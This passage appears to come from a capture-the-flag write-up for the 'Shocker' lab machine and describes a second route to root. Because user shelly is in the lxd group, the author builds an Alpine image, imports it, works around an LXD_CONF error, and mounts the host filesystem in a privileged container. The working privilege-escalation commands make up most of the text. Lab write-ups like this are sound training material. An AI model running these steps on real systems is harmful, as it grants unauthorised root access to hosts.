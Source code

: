### Method 2 - LXD container manager
A far more complicated way to obtain the root flag is by building a container that mounts the / fs.
As we can see, after we run linPEAS we can see the following marked as a highly probable privilege escalation vector:
```
╔═══════════════════════════════════╣ Users Information ╠════════════════════════════════════                                                                  
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#users                                                                                                                                                                  
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)                                                                                          
```
As we can see here, user shelly is part of lxd group and hence we can try to escalate to root by building an alpine linux image that mounts the root fs as discribed [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation#users).  
LXD is Ubuntu’s system container manager. This is similar to virtual machines, however, instead using linux containers.  
The lxd group should be considered harmful in the same way the docker group is.  
Any member of the lxd group can immediately escalate their privileges to root on the host operating system.
To Exploit this vulnerability, first of all we need to run the following commands on our local machine:
```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
bash build-alpine
```
After we run this command we can transfer the ```alpine-v3.14-x86_64-20211115_1157.tar.gz``` image to the remote server, and run the following command.
```
lxc image import ./alpine-v3.14-x86_64-20211115_1157.tar.gz --alias alpine
```
we do get the following error:
```
shelly@Shocker:/dev/shm$ lxc image import ./alpine-v3.12-x86_64-20200826_2058.tar.gz --alias alpine
Generating a client certificate. This may take a minute...                                                         
error: mkdir /.config: permission denied
```
This is due to an environment variable not set, probably due to the nature of our shell access to the system.  
Poking around the man, we can see:
```
Environment:                                                                                                       
  LXD_CONF         Path to an alternate client configuration directory                                             
  LXD_DIR          Path to an alternate server directory                                        
```
so let's change this to:
```                   
shelly@Shocker:/dev/shm$ export LXD_CONF="/dev/shm"
```
and proceed with the exploit.  
```
lxc image import ./alpine-v3.14-x86_64-20211115_1157.tar.gz --alias alpine
lxc image list # verify that the image is loaded
lxc init alpine alpine-container -c security.privileged=true
lxc config device add alpine-container alpine-device disk source=/ path=/mnt/root recursive=true
```
finally, we can start the container and run a bash shell:
```
lxc start alpine-container
lxc exec alpine-container /bin/sh
```